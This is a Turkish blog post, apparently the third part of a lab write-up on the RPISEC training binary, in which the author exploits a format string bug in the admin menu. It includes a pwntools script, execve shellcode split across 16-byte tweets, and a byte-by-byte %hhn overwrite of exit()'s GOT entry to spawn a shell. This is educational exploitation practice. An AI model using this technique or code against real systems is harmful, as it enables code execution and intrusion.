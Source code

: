 ```yaml
---
layout: post
title: "Savaş Oyunları: Format İpliklerinin Dönüşü Part III"
tags: pwn
date: 18.12.13
---
```


Admin olmayı başardım ancak bu tek başına birşey ifade etmiyor. Çünkü program admin olan bir kullanıcıya tweetlerin adreslerini göstermekten başka bir fonksiyon sunmuyor. Programda zafiyetler var mı incelemem gerekecek.

{% include aligner.html images="/2018-12-13-rpisec_project1_pt3/imback.gif" width=100 %}

İlk aradığım zafiyet türü buffer overflow. Ancak programı yazan kişi gayet iyi yazmış, tüm inputlar bufferların uzunluğuna göre alınıyor. İkinci olarak printf tarzı fonksiyonlarda yanlış kullanım var mı diye ararken sym.print_menu altında dikkatimi şu kısım çekiyor:

{% include aligner.html images="/2018-12-13-rpisec_project1_pt3/1.png" width=100 %}

Bu kısım menüdeyken küçük penguenin yanına son girdiğimiz tweeti yazdırıyor. Ancak normal kullanıcı için sağdaki, admin olan kullanıcılar için ise soldaki blok çalışıyor. Küçük bir problem var, soldaki blokta tweetim printf fonksiyonuna ilk argüman olarak veriliyor. Bu da demektir ki:

FORMAT STRING ZAFİYETİ BULDUM!!

Küçük sevinç çığlıklarından sonra bu zafiyeti nasıl kullanacağımı planlamam lazım. İlk deneyeceğim şey GOT tablosundan bir fonksiyonun adresini değiştirip kendi yazdığım shellcode'a yönlendirmek. Bunun için shellcode'umu tweetlerin içinde tutabilirim. Tek sorun, tweetler 16 byte boyutunda. Bütün bunları hesaba katıp kendime bir yol çizdim:

- Shellcode'u tweet olarak programa ver.
   - 16 byte bir shellcode için küçük olacak. "/bin/sh" kısmını önden bir tweete yükleyip kodun kalanını sonraki tweette saklayabilirim.
- Son tweet ile format string zafiyetini kullanıp sym.exit()'in GOT girdisini shellcode'a yönlendir.
- Programdan çıkış yaparak exit() fonksiyonunun çağrılmasını sağla.


## 1. Shellcode'un programa yüklenmesi
Python scriptime debug modunu açıp "/bin/sh" tweetini atan kısmı ekliyorum:

{% highlight python %}
log.info(io.recv())
io.sendline("6")
log.info(io.recvuntil("Enter Choice: "))
io.sendline("1")
# program son karaktere mudahele ediyor
io.sendline("/bin/sh\x00/")
{% endhighlight %}

Hemen ardından tweetin bellekteki adresini okumam gerekecek.

{% highlight python %}
io.recv()
io.sendline("2")
tweet_list = io.recv()
binsh = int(tweet_list.split("\n")[-7].split(" ")[-1], 16)
log.info("binsh address: {}".format(hex(binsh)))
{% endhighlight %}

Şimdi shellcode'umu oluşturup programa verebilirim.

### Zeytinli shellcode tarifi:

{% highlight python %}
shellcode  = "xor ecx, ecx\n"
shellcode += "imul ecx\n"
shellcode += "mov al, 0x0b\n"
shellcode += "mov ebx, 0x{}\n".format(binsh)
shellcode += "int 0x80\n"
shellcode = asm(shellcode)
{% endhighlight %}

13 byte'lık shellcode'um hazır. Şimdi bunu programa yüklüyorum.

{% highlight python %}
io.recv()
io.sendline("1")
io.sendline(shellcode)
io.sendline("")
{% endhighlight %}

Shellcode'umun adresini de okuyorum.

{% highlight python %}
io.recv()
io.sendline("2")
tweet_list = io.recv()

shellcode_address = int(tweet_list.split("\n")[-8].split(" ")[-1], 16)
log.info("Shellcode @{}".format(hex(shellcode_address)))

io.send("\n")
{% endhighlight %}

## 2. Format string zafiyetini kullanarak GOT girdisini değiştirmek

Sırada exit fonksiyonunun GOT girdisini değiştirmek için format string zayifetini kullanmam gerekiyor. Pwntools bunun için hazır fonksiyonlara sahip ama şimdilik kendi kodlarımla idare edeceğim. Ancak yine 16 byte sınırı ile karşı karşıyayım. Birden fazla tweet kullanarak adresi parça parça değiştirmek zorunda kalacağım.

{% highlight python %}
exitgot = binary.got["exit"]
# byte byte yaziyorum
for i in range(4):
    io.recv()
    io.sendline("1")

    # padding gerekli
    line  = "A"
    line += p32(exitgot+i)
    byte2write = (shellcode_address & (0xff << i*8)) >> i*8
    log.info("Writing {} to address {}".format(hex(byte2write),
                                               hex(exitgot+i)))
    byte2write |= 0x100
    byte2write -= len(line)
    line += "%" + str(byte2write) + "x"
    line += "%8$hhn"

    io.sendline(line)
    io.sendline("")

io.interactive()
{% endhighlight %}

## 3. Programdan çıkış(!)

Scriptim buraya kadar çalıştıktan sonra programdan çıkış yapmak istediğimde exit() fonksiyonunu çağırmaya çalışacak ve shellcode'uma düşecek.

{% include aligner.html images="/2018-12-13-rpisec_project1_pt3/2.png" width=100 %}

Ve shellcode çalıştı. Projeyi sonunda tamamladım. Scriptin en son halini [githubda](https://gist.github.com/erfur/40809ac0184070341ee27279ab2402dc) bulabilirsiniz. İlk konular ile alakalı bir proje olduğu için güncel korumaların hepsi kapalıydı (ASLR dahil). İleride daha güncel yöntemlerin kullanıldığı projelerde görüşmek üzere.

Connection closed by foreign host.
